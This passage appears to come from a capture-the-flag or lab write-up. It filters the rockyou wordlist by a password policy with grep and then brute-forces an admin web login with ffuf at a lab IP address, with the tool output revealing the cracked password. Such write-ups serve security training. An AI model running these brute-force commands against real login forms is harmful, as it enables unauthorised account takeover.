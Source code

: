 Password is:

```
Ramirez120992
```

#### Alternative filtering

***

We can do the following wordlist filter too:

```bash
grep -P '^(?=.*[A-Z])(?=.*[a-z])(?=.*\d).{10,}$' /usr/share/wordlists/rockyou.txt > filtered_rockyou.txt
```

```ad-important
#### Breakdown
---
(GNU grep with `-P`):

- `-P`: Enables Perl-Compatible Regular Expressions (PCRE).
    
- `(?=.*[A-Z])`: Lookahead for at least one uppercase character.
    
- `(?=.*[a-z])`: Lookahead for at least one lowercase character.
    
- `(?=.*\d)`: Lookahead for at least one digit.
    
- `.{10,}`: Ensures a minimum length of 10 characters.

```

And we'll get the same output:

```
ffuf -w filtered_rockyou.txt -u http://94.237.55.96:36280/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.96:36280/index.php
 :: Wordlist         : FUZZ: /home/samsepiol/filtered_rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid username
________________________________________________

Ramirez120992           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 204ms]
```

